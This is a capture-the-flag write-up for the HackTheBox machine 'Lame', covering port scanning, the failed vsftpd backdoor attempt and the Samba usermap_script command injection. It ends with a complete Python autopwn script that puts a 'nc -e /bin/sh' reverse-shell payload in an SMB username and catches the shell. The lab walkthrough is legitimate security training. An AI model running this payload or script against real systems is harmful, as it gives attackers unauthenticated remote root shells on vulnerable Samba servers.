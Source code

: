 ```yaml
---
layout: default
title: HackTheBox - Lame Writeup
permalink: /htb/lame
---
```


# Lame

> **Name:** Lame
>
> **Creator:** [ch4p](https://www.hackthebox.eu/home/users/profile/1)
>
> **Difficulty:** Easy


## Intro

[Lame](https://www.hackthebox.eu/home/machines/profile/1) was released on 14 Mar 2017 and among the first boxes released on the platform. It is one of the easier linux boxes available, which makes it a good place to start for beginners. I originally completed this when it had already retired and I was making my way through some of the older boxes to help further my understanding. As it was so simple I never made notes so I've had to fully go back and re-do the box to make this write-up, whilst doing this I discovered there was more and one way to do it!


## Getting Started

As is always the case we start off with performing a full port scan against the box to  get an idea of what services are available. My preferred command is shown below:

``` nmap -p- 10.10.10.3 -sC -sV -oA full-scan ```

This command runs a SYN, or half-open scan against all ports. With the additional flags running default scripts, version detection and creating an output file in various formats. 

The scan gives the following results:

![Scan Results]({{site.url}}/assets/lame/scan-results.png)


## Basic Vulnerability Check

From here it is best to go through each service in turn, and check for any known vulnerabilities for the versions in use and for any interesting results from the nmap scripts that were run. Checking the service version in Searchsploit is a good way to quickly identify some vulnerabilities, but this is not always exhaustive and it is worth performing some searches on various sites to get more information. Straight away searchsploit delivers the goods with the first check against ftp.

![Searchsploit Results]({{site.url}}/assets/lame/vsftpd-searchsploit.png)

Nothing was found for ssh, but the Samba service also had an entry within searchsploit that looks promising. 

![Searchsploit Results]({{site.url}}/assets/lame/samba-searchsploit.png)

A final check for the distcc service also reveals another potential attack vector. I think this service may be a bit slow to start upon spawning the box as my initial nmap scan didn't identify the port as being open. Yet when I ran another later on it was there. 

![Searchsplot Results]({{site.url}}/assets/lame/distcc-searchsploit.png)

So from the an initial check of all the available services there are publcily available exploits for 3 of them! This is incredibly unusual for hackthebox. 


## Exploitation

With so many potential ways forward it is best to prioritise which one to start with. But since I've seen the vsftpd exploit previously it seems a good place to start, followed by Samba, and then finally distcc. Purely because distcc is something I am unfamiliar with. 

### FTP

The nmap scripts seen in the earlier results also show that anonymous access is enabled, so a quick connect and check for any files is performed.

![Anonymous FTP]({{site.url}}/assets/lame/ftp-anonymous.png)

No luck this time! It is all empty. So, onto the exploit. The Rapid7 page for this [exploit](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor) gives the following the description:

>This module exploits a malicious backdoor that was added to the VSFTPD download archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 according to the most recent information available. This backdoor was removed on July 3rd 2011.

Having a look at the ruby script is useful for figuring out how the exploit works. 

![VSFTPD Exploit]({{site.url}}/assets/lame/vsftpd-exploit.png)

The small excerpt from the msf module shows that a username ending in ```:)``` and password of random characters is sent and a service becomes available on port 6200. It isn't necessary to use the metasploit module to exploit this, you could login with a username ending in ```:)``` and a random password. Then use netcat to connect to the bindshell on port 6200. However, for an unknown reason the backdoor is not accessible in this instance. Best guess is that there are some firewall rules on the box that prevent 6200 from becoming externally available. 

This is the reason why it is important to have a quick check of all services first before diving in. As we already know that we have other potential avenues, rather than continuing to try and get this exploit to work.  

### Samba

Checking the Rapid7 site for this [exploit](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script) gives the following description:

> This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!

Checking the ruby script shows that it is as easy as sending a crafted username with a payload after it. 

![Samba Exploit]({{site.url}}/assets/lame/msf-script.png)

Amriunix gives a good explanation this vulnerability in a [blog post](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/). But essentially it is because unfiltered user input is being passed to /bin/sh as part of the username map script. 

First of all there needs to be a share we can connect to, so smbclient is used to get a list of available shares. 

![Shares]({{site.url}}/assets/lame/smb-shares.png)

You may have noticed an additional option in that command. On newer versions of SMBClient it is configured to prevent connection to older versions of SMB, so this setting just needs to be set so we can connect properly. Otherwise the connection will be terminated.

It is possible to null authenticate to the /tmp share and use the logon command to submit the crafted username to get a shell

![Exploit]({{site.url}}/assets/lame/smb-exploit.png)

Yay! Straight to root. Lets grab that flag. 

* * *

## Autopwn

As a fun exercise I decided to make an autopwn exploit for this box. The basic part of running the exploit was straight forward, especially if you had a listener setup seperately. The trickier part was getting the listener running, exploit to run and the listener to accept the incoming connection. There are probably more refined ways to do this - but it works. The full script is shown below and is available on my [github](https://github.com/Agent-Tiro/HackTheBoxScripts/blob/master/lame-exploit.py). I have also made a blog [post](https://agent-tiro.github.io/blog/lame-autopwn) that details how I put the script together.

```
import argparse
from smb.SMBConnection import SMBConnection
from smb import smb_structs
import socket
import multiprocessing
import time

# Create a mini help file to show which flags are required
parser = argparse.ArgumentParser(description='Lame Exploit')
parser.add_argument('-l', required=True, type=str, help='Listener IP')
parser.add_argument('-p', required=True, type=int, help='Listener Port')
args = parser.parse_args()

# Set user args to variables for use later
host = args.l
port = args.p

# Create malicious username
username = '/=`nohup nc -e /bin/sh ' + host + ' ' + str(port) + '`'
password = 'hunter2'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Set up a listener
def listener():
    s.bind((host, port))
    s.listen(5)
    print('Listening on port: ' + str(port))

# Catch that shell
def cmd():
    client_socket, client_addr = s.accept()
    print(f'{client_addr[0]}:{client_addr[1]} Connected!')
    print('Whoop! Shell Time!\n')
    while True:
        command = input("")
        if command.lower() == 'exit':
            break
        command = command.encode()
        client_socket.send(command + b'\n')
        response = client_socket.recv(2048).decode()
        print(response)
    client_socket.close()
    print('Exiting')
    s.close()

# Create SMB Connection
def exploit():
    smb_structs.SUPPORT_SMB2 = False
    conn = SMBConnection(username, password, 'doesnotmatter', 'lame', use_ntlm_v2 = True)
    print('Launching exploit')
    conn.connect('10.10.10.3', 445)
    time.sleep(1)
    close()

# Launch this thing in multiprocessing
if __name__ == '__main__':
    p = multiprocessing.Process(name='p', target=listener)
    p1 = multiprocessing.Process(name='p1', target=exploit)
    p.start()
    time.sleep(1)
    p1.start()
    cmd()

```
